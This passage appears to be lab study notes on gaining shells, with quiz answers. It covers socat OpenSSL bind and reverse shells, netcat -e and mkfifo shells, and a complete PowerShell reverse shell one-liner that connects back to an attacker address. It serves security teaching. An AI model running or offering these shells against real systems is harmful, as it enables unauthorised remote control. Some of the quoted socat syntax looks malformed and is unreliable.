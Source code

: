 For a bind shell:
* Target - `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`
* Attacker - `socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -`

Even for a Windows target the certificate must be used with the listener so the `.pem` file must be transferred over first.

**Questions**

    1. What is the syntax for setting up an OPENSSL-LISTENER using the tty technique from the previous task? Use port 53, and a PEM file called "encrypt.pem"

`socat OPENSSL-LISTEN:53, FILE:tty,raw,echo=0, cert=encrypt.pem, verify=0 -`

    2. If your IP is 10.10.10.5, what syntax would you use to connect back to this listener?

`socat OPENSSL:10.10.10.5:53, verify=0, EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

## Common Shell Payloads

In some versions of netcat (including the `nc.exe` Windows version included with Kali at `/usr/share/windows-resources/binaries`, and the version used in Kali itself: `netcat-traditional`) there is a `-e` option which allows you to execute a process on connection. `nc -lvnp <PORT> -e /bin/bash`. Connecting to this listener would result in a bind shell on the target. For a reverse shell `nc <LOCAL-IP> <PORT> -e /bin/bash` on the target would be used.

Most versions of netcat do not include the `-e` argument as it is known to be insecure. On Windows where a static binary is almost always necessary, this technique will work perfectly. On Linux, we will create a listener for a bind shell with 

`mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`. 

This command first creates a named pipe at `/tmp/f`. It then starts a netcat listener, and connects the input of the listener to the output of the named pipe. The output of the netcat listener (i.e. the commands we send) then gets piped directly into sh, sending the stderr output stream into stdout, and sending stdout itself into the input of the named pipe, thus completing the circle.

Using the same method for a netcat reverse shell - `mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`

When targeting a modern Windows Server, it is very common to require a Powershell reverse shell. It will look like this.

`powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"`

This can be ran in a cmd.exe or powershell.exe shell and executed, resulting in a reverse shell.

**Questions**

    1. What command can be used to create a named pipe in Linux?

mkfifo

## Msfvenom
